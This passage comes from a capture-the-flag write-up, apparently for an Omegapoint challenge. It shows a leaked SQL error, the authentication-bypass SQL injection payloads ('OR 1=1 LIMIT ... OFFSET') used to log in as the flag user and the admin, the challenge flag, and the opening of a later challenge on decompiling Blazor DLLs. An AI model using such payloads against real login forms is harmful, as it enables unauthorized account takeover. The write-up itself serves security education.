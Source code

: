 This probing, tracked through analysing the network traffic, triggers an error message that inadvertently discloses the SQL query used in the backend. Evidently, the developers failed to implement parameterized queries, exposing the following SQL injection flaw:

```json
{
  "status": "error",
  "error": {
    "name": "SqlError",
    "sqlMessage": "You have an error in your SQL syntax; check the manual that corresponds to your MariaDB server version for the right syntax to use near 'a'' at line 1",
    "sql": "SELECT id, username, isAdmin FROM users WHERE username='a'' AND password='a'; - parameters:[]",
    "fatal": false,
    "errno": 1064,
    "sqlState": "42000",
    "code": "ER_PARSE_ERROR"
  }
}
```

With this, one can essentially access the entire database, including all notes and users. As the challenge involves obtaining admin privileges on the site, gaining access to an admin user is necessary. Through SQL injection, one can navigate through the users by using SQL clauses like `LIMIT` and `OFFSET`.

Setting the subsequent payload as the username grants access to a user with the flag as their username. Further adjustment by an offset of 2 unveils access to the admin user:

```sql
' OR 1=1 LIMIT 1 OFFSET 1 -- - User with flag
```

```sql
' OR 1=1 LIMIT 1 OFFSET 2 -- - Admin user
```

![logged in as a user with the flag as the username](https://hackmd.io/_uploads/HyxsTpqOT.png)

### Flag

`OMEGAPOINT{50e1ad3bbd85c57c528f06f84dafd174}`

## [5] The Dreaded Lost Library

### Description

> The reliance on libraries has inadvertently exposed hidden secrets of the web application. Can you find the exposed secret?

### Solution

Moving to the preview web application built with the Blazor framework, one can see that most of the functionality is similar to the React application, being a client-side framework under WebAssembly in interpreted mode. Here, the .NET Mono runtime gets compiled into WebAssembly, loading and executing .NET assemblies through the runtime as DLL files. However, since the DLL files are built by the normal .NET compilation toolchain, and we know by the fact that C# compiles to bytecode alongside several metadatas before machine code, there's a possibility of retrieving the source code by decompilation due to the nature of C# as a programming language as of .NET 7.
